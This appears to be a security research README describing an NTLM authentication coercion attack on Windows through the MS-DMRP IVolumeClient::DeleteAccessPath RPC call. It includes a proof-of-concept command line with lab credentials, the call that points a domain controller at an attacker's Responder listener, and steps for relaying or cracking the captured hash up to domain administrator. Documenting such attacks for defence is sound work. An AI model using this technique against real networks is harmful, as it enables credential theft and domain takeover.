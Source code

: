 # MS-DMRP - Remote call to IVolumeClient::DeleteAccessPath (opnum 81)

## Summary

+ **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

+ **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVolumeClient::DeleteAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/a91ecc92-4de8-4a34-b144-a29fab69d830)

+ **Function operation number**: `81`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient::DeleteAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/a91ecc92-4de8-4a34-b144-a29fab69d830) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient::DeleteAccessPath('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT DeleteAccessPath(
   [in] LdmObjectId volumeId,
   [in] int cch_path,
   [in, size_is(cch_path)] WCHAR* path
 );
```

## References

+ Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

+ Documentation of function `IVolumeClient::DeleteAccessPath`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/a91ecc92-4de8-4a34-b144-a29fab69d830